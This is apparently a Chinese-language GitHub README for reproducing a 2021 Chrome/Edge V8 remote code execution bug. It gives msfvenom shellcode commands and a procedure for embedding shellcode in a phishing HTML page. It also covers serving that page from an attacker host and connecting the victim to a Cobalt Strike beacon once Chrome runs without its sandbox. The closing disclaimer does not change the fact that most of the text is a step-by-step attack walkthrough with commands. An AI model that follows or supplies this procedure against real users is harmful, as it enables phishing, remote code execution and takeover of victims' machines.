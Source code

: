 # Chrome-0day
## 漏洞介绍

Google Chrome是由Google开发的免费网页浏览器。经测试，此漏洞影响 Chrome 最新正式版（89.0.4389.128）以及基于Chromium内核的Microsoft Edge正式版（89.0.774.76）。攻击者可通过构造特制web页面并诱导受害者访问来利用此漏洞获得远程代码执行。

Chrome一直是很多用户使用的浏览器，最新出来了一个[Chrome 0Day](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247493386&idx=1&sn=168b3a6d23acb04b144bbc4e0ec44e8a&scene=21#wechat_redirect) ，然后我这边已经成功复现，配合这个0day，可以执行任意命令，不过前提条件是需要chrome开启--no-sandbox无沙盒模式，我们可以生成一个链接让受害者点击直接上线Cobalt Strike。

## 影响范围

Google Chrome <= 89.0.4389.128

基于Chromium内核的Microsoft Edge <= 89.0.774.76

其他基于V8引擎的浏览器

目前90.0.4430.72 (正式版本)也受影响。

但最新版90.0.4430.85 (正式版本)不受影响。

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.233

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2 制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1 方式一

浏览器关闭沙盒并打开网页，可以看到已经成功执行计算器命令。

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```
<img src="$imgs/image-20210419212729010.png" alt="image-20210419212729010" style="zoom:50%;" />

#### 1.2.2 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

用关闭沙盒的Chrome浏览器访问以下链接，可以看到已经成功执行计算器命令。

http://192.168.43.232/exploit.html

<img src="$imgs/image-20210419213214973.png" alt="image-20210419213214973" style="zoom:50%;" />

### 1.2.3 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。

<img src="$imgs/image-20210419212821226.png" alt="image-20210419212821226" style="zoom:33%;" />



## 2. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

<img src="$imgs/image-20210419210046476.png" alt="image-20210419210046476" style="zoom:50%;" />

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里勾选x64。**

<img src="$imgs/image-20210419210123713.png" alt="image-20210419210123713" style="zoom: 33%;" />

<img src="$imgs/image-20210419210355208.png" alt="image-20210419210355208" style="zoom: 33%;" />

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419210638146]($imgs/image-20210419210638146.png)

**2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419212051276]($imgs/image-20210419212051276.png)

**2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html**

![image-20210419210849819]($imgs/image-20210419210849819.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。**

![image-20210419210953419]($imgs/image-20210419210953419.png)



**至此Chrome-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**
